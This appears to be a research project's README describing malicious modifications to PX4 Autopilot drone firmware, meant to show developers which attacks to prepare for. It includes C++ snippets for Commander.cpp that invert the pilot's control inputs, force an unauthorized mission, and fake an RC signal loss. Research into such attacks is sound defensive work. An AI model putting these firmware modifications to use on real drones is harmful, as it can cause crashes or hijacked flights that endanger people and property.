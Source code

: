 # PX4-Malicious
The PX4-Malicious project aims to provide a direction for which attacks to prepare for service developers by organizing attack scenarios based on drone attack cases and implementing malicious software corresponding to attack scenarios using PX4 Autopilot.  
- [Selected as an excellent paper in 2020 KSC Information Security and High-Reliability Computing](http://www.kiise.or.kr/academy/board/academyNewsView.fa?MENU_ID=080100&sch_add_bd=%ED%95%99%ED%9A%8C%EC%86%8C%EC%8B%9D&NUM=2127)

## PX4 Autopilot
<img title="Architecture" alt="PX4" src="https://github.com/korkeep/PX4-TrustZone/raw/main/Architecture/PX4.png" width="500"/>

**PX4 Autopilot** is an open-source autopilot system for Unmanned Aerial Vehicle. **PX4 Autopilot** guarantees scalability so that the PX4 ecosystem can be maintained by providing a standard for drone hardware and software.  
- [PX4 Github](https://github.com/PX4/PX4-Autopilot)
- [PX4 Autopilot](https://docs.px4.io/master/en/)
- [QGroundControl](http://qgroundcontrol.com/)
- [MAVLink Protocol](https://mavlink.io/en/)

## 3-Factor of Drone Attack
![3-factor](https://user-images.githubusercontent.com/20378368/107300818-940a5380-6abd-11eb-932b-fcd02a522b9f.png)
| Content | Description |
| --- | --- |
| Drone Aircraft | Inside the drone device |
| Ground Control System | External factors, GCS |
| Drone Flight Stack | Dynamic elements in the flight process |

## Let's Hack a Drone 👿
### Scenario #1: Generating Control Error
- **Demo**: [YouTube Link](https://youtu.be/SOWdo8h1ZJA)
- **Attack Type**: Drone Aircraft, Drone Flight Stack
- **Attack Point**: Drone Firmware, Commander.cpp
- **Attack Code**:  
<img title="S1" alt="PX4-S1" src="https://user-images.githubusercontent.com/20378368/107301836-9a99ca80-6abf-11eb-9f4d-377eb12872bd.png" width="400"/>  

```
# Step 1: Check whether new data has been published
if(last_setpoint_x != (int)(_manual_control_setpoint.x * 10000) && last_setpoint_y != (int)(_manual_control_setpoint.y *10000))
```
```
# Step 2: Declare a new setpoint & copy using orb_copy
struct manual_control_setpoint_s temp_setpoint;
orb_copy(ORB_ID(manual_control_setpoint), 1, &temp_setpoint);
```
```
# Step 3: Update the new setpoint in the opposite direction of x and y
temp_setpoint = _manual_control_setpoint;
temp_setpoint.x *= (-1);
temp_setpoint.y *= (-1);
```
```
# Step 4: Publish updated setpoint values
orb_advert_t changed_setpoint = orb_advertise(ORB_ID(manual_control_setpoint), &temp_setpoint);
orb_publish(ORB_ID(manual_control_setpoint), changed_setpoint, &temp_setpoint);
```
```
# Step 5: Save current setpoint value to last_setpoint
last_setpoint_x = (int)(temp_setpoint.x * 10000);
last_setpoint_y = (int)(temp_setpoint.y * 10000);
```

### Scenario #2: Unintended Mission Conduct
- **Demo**: [YouTube Link](https://youtu.be/edIfXTZRIV8)
- **Attack Type**: Drone Aircraft, Ground Control Station, Drone Flight Stack
- **Attack Point**: Drone Firmware, Commander.cpp
- **Attack Code**:  
<img title="S2" alt="PX4-S2" src="https://user-images.githubusercontent.com/20378368/107302293-82767b00-6ac0-11eb-91d9-1a7af3b3755f.png" width="300"/>  

```
# Step 1: Mission structure declaration
mission_s mission;
```
```
# Step 2: Dataman의 Data(Mission, Setpoint) 읽은 결과를 새로 선언한 Mission에 업데이트
if (dm_read(DM_KEY_MISSION_STATE, 0, &mission, sizeof(mission_s)) == sizeof(mission_s)) {
    if (mission.dataman_id == DM_KEY_WAYPOINTS_OFFBOARD_0 || mission.dataman_id == DM_KEY_WAYPOINTS_OFFBOARD_1) {
        if (mission.count > 0) {
            PX4_INFO("Mission #%d loaded, %u WPs, curr: %d", mission.dataman_id, mission.count, mission.current_seq);
        }
    }
}
```
```
# Step 3: Publish the updated Mission
_mission_pub.publish(mission);
```
```
# Step 4: Check if Mission is properly published
const bool mission_result_ok = (mission_result.timestamp > _boot_timestamp) 
    && (mission_result.instance_count > 0);
```
```
# Step 5: Make sure the mission is in a state that can be performed
if (status_flags.condition_home_position_valid &&
    (prev_mission_instance_count != mission_result.instance_count)) {

    if (!status_flags.condition_auto_mission_available) {
        // the mission is invalid
        tune_mission_fail(true);

    } else if (mission_result.warning) {
        // the mission has a warning
        tune_mission_fail(true);

    } else {
        // the mission is valid
        tune_mission_ok(true);
    }
}
```
```
# Step 6: Switched to Mission execution mode & Mission performed
main_state_transition(status, commander_state_s::MAIN_STATE_AUTO_MISSION, status_flags, &_internal_state);
```
```
# Step 7: When the mission is over, set flag to false
if(_mission_result_sub.get().finished){
  MESL02_Mission_flag = false;
}
```

### Scenario #3: RC Connection Lost
- **Demo**: [YouTube Link](https://youtu.be/DLxIkqdxU0k)
- **Attack Type**: Ground Control Station, Drone Flight Stack
- **Attack Point**: Drone Firmware, Commander.cpp
- **Attack Code**:  
<img title="S3" alt="PX4-S3" src="https://user-images.githubusercontent.com/20378368/107302870-645d4a80-6ac1-11eb-93f8-88b8ca5c313b.png" width="400"/> 
```
# Step 1: Sending 1000 Loss Signals
else if(MESL03_Loss_flag <= 1000)
```
```
# Step 2: Convert rc_signal_lost of Status structure to true
status.rc_signal_lost = true;
```
```
# Step 3: Set the flag with the updated Status using the set_health_flags() function
set_health_flags(subsystem_info_s::SUBSYSTEM_TYPE_RCRECEIVER, true, true, false, status);
_status_changed = true;
```